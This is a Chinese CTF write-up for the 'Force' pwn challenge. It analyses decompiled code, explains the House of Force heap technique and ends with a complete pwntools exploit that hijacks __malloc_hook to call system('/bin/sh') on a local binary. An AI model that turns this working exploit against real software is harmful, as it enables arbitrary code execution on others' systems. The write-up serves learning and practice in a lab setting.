

# 新春战“疫” 第一天 Force

### 0x0 前置补偿

这道题用到了House of Force，

贴一个讲解House of XXXX系列的[讲解](https://sploitfun.wordpress.com/tag/house-of-force/)

### 0x1 分析

看一下安全性:

```shell
➜  force checksec pwn
[*] './pwn'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

跟上一道题一样基本都开着。看一下程序函数，其实并不复杂。

`main()`:

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  __int64 choice; // rax
  char s; // [rsp+10h] [rbp-110h]
  unsigned __int64 v5; // [rsp+118h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  memset(&s, 0xFF, 0x100uLL);
  while ( 1 )
  {
    memset(&s, 255, 0x100uLL);
    puts("1:add");
    puts("2:puts");
    read(0, data, 0xFuLL);
    choice = atol(data);
    if ( choice == 1 )
    {
      add();
    }
    else if ( choice == 2 )
    {
      show();
    }
  }
}
```

直接给出一个菜单，只有两个功能，一个`add()`函数，一个`show()`函数。

`show()`:

```c
unsigned __int64 show()
{
  unsigned __int64 v0; // ST08_8

  v0 = __readfsqword(0x28u);
  puts(&byte_D93);
  return __readfsqword(0x28u) ^ v0;
}
```

这个函数我没找到任何可以利用的地方。单纯地输出一个空行。

`add()`:

```c
unsigned __int64 add()
{
  void **v0; // ST00_8
  char *ptr; // [rsp+0h] [rbp-120h]
  __int64 size; // [rsp+8h] [rbp-118h]
  char s; // [rsp+10h] [rbp-110h]
  unsigned __int64 v5; // [rsp+118h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  memset(&s, 255, 0x100uLL);
  for ( ptr = (char *)&noteList; *(_QWORD *)ptr; ptr += 8 )
    ;
  if ( ptr - (char *)&noteList > 0x27 )
    exit(0);
  puts("size");
  read(0, data, 0xFuLL);
  size = atol(data);
  *(_QWORD *)ptr = malloc(size);
  if ( !*(_QWORD *)ptr )
    exit(0);
  printf("bin addr %p\n", *(_QWORD *)ptr, ptr, size);
  puts("content");
  read(0, *v0, 0x50uLL);
  puts("done");
  return __readfsqword(0x28u) ^ v5;
}
```

这里发现它是十分符合House of Force的条件的：

- 由于可以每次可以向申请的堆输入`0x50`大小的内容，只要申请的堆小于`0x50`就可以溢出。就可以修改top chunk的head。
- 可以申请任意大小的堆
- 这个函数还送给了我们堆的地址。

那么问题来了，我们需要知道libc的地址。

但是我们知道`mmap`申请出来的内存的地址和libc的基地址之间的距离是固定。

那么我们可以首先`mmap`一个超级大的堆，比如：`0x1000000`,

我们就可以知道调试出偏移量了：



我们可以算出来偏移量：`distance = 0x1000ff0`

那么接下来就直接House of Force了。

在需要的第三个块里放入`system()`函数的地址，最后在进入一次`add()`函数在`size`变量填入`/bin/sh`的地址(需要注意的是，这里不需要编码成字节流)。

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

p = process('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
distance = 0x1000ff0
def debug(p, cmd):
  '''cmd = 'b *%d' %(proc_base+breakaddr)'''
  gdb.attach(p, cmd)
  pause()

def add(p, size, content):
  p.sendlineafter("2:puts\n", '1')
  p.sendlineafter("size\n", str(size))
  p.recvuntil("bin addr ")
  heap = eval(p.recv(14))
  p.sendafter("content\n", content)
  return heap

libc_base = add(p, 0x1000000, 'aaaaa') + distance
malloc_hook = libc_base + libc.symbols['__malloc_hook']
system_addr = libc_base + libc.symbols['system']
sh_addr = libc_base + libc.search('/bin/sh').next()
print hex(libc_base)
pause()
# debug(p, 'print system\n')

payload = 'a'*0x10 + p64(0) + p64(0xFFFFFFFFFFFFFFFF)
top_chunk = add(p, 0x10, payload) + 0x10
offset = malloc_hook - 0x10 - top_chunk - 0x10 
add(p, offset, 'aaaaa')
payload = p64(system_addr)*2
add(p, 0x10, payload)

p.sendlineafter("2:puts\n", '1')
p.sendlineafter('size\n', str(sh_addr))
p.interactive()
```

